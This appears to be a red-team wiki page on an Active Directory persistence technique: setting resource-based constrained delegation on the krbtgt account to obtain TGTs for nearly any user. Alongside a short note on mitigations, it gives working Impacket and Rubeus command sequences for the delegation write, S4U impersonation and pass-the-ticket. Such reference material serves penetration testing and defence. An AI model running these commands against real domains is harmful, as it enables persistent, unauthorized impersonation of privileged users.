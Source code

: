 ```yaml
---
authors: ShutdownRepo, sckdev
category: ad
---
```


# Delegation to KRBTGT

## Theory

The idea behind this technique is to configure [resource-based constrained delegation](../../movement/kerberos/delegations/rbcd.md) on the `krbtgt` account to generate TGTs on-demand as a persistence technique. The requirements for the technique are to have enough privileges (i.e. domain admin rights) to edit the `krbtgt` account's "rbcd" attribute (i.e. `ms-DS-Allowed-To-Act-On-Behalf-Of-Other-Identity`) and to control an account that has an SPN ([or create one](../../movement/builtins/machineaccountquota.md#create-a-computer-account), or do [SPN-less RBCD](../../movement/kerberos/delegations/rbcd.md#rbcd-on-spn-less-users)).

Once the delegation is configured, an attacker can later on obtain a service ticket for the krbtgt on behalf of any user. 

Since a TGT is just a Service Ticket for the `KRBTGT` service, it means the attacker has a persistence technique allowing him to obtain a TGT for almost any user in the domain. The only limitations are the "Protected Users" group, or the "Account is sensitive and cannot be delegated" parameter. Those settings can protect users from delegation and will prevent attackers from obtaining a ticket that looks like a TGT on their behalf through a delegation trick.

An example of the abuse goes as follows :

1. Configure RBCD delegation on the `krbtgt` account to allow a controlled account to delegate to it. The controlled account should have at least one SPN (i.e. ServicePrincipalName) for the delegation to work (or, see [SPN-less RBCD](../../movement/kerberos/delegations/rbcd.md#rbcd-on-spn-less-users)). This controlled account will be called "ControlledAccountWithSPN".
2. Perform a full [S4U](../../movement/kerberos/delegations/) attack to obtain a Service Ticket for the `krbtgt` service, on behalf of another privileged user. Let's call this chosen user "TargetedAccount". The ticket obtained through this process is for the `KRBTGT` service, which basically means the ticket can be used as a TGT for the TargetedAccount.
3. [Pass-the-ticket](../../movement/kerberos/ptt.md) to use the Service-Ticket-that-is-in-fact-a-TGT, act as the target -privileged- user, and authenticate to remote resources.

## Practice

::: tabs

=== UNIX-like

Every step of this attack can be achieved using one of the following scripts from [Impacket](https://github.com/fortra/impacket) (Python), such as rbcd.py and getST.py.


```bash
# Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
rbcd.py -delegate-from 'ControlledAccountWithSPN' -delegate-to 'krbtgt' -dc-ip $dcIp -action write 'DOMAIN'/'PrivilegiedAccount':'StrongPassword'

# Step 2 : S4U attack for TargetedAccount to ControlledAccountWithSPN
getST.py -spn "KRBTGT" -impersonate "TargetedAccount" -dc-ip $dcIp 'DOMAIN'/'ControlledAccountWithSPN':'PasswordOfControlledAccountWithSPN'

# Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (which is a TGT).
KRB5CCNAME='TargetedAccount@krbtgt_DOMAIN@DOMAIN.ccache' getST.py -spn 'cifs/target' -k -no-pass 'DOMAIN'/'TargetedAccount'
```



=== Windows

Every step of this attack can be achieved using Rubeus and the Set-ADUser command.


```powershell
# Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount ControlledAccountWithSPN

# Step 2 : Full S4U for TargetedAccount to krbtgt using ControlledAccountWithSPN
Rubeus.exe s4u /nowrap /impersonateuser:"TargetedAccount" /msdsspn:"krbtgt" /domain:"DOMAIN" /user:"ControlledAccountWithSPN" /rc4:$NThash

# Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (printed in a base64 blob thanks to the /nowrap flag), and inject it in memory using /ptt in order to use the resulting ticket for authentication to remote resources
Rubeus.exe asktgs /service:"cifs/target" /ticket:"base64ticket...." /ptt
```


:::


## Resources

[https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#unconstrained-domain-persistence](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#unconstrained-domain-persistence)

[https://skyblue.team/posts/delegate-krbtgt/](https://skyblue.team/posts/delegate-krbtgt/)


[rbcd.md](../../movement/kerberos/delegations/rbcd.md)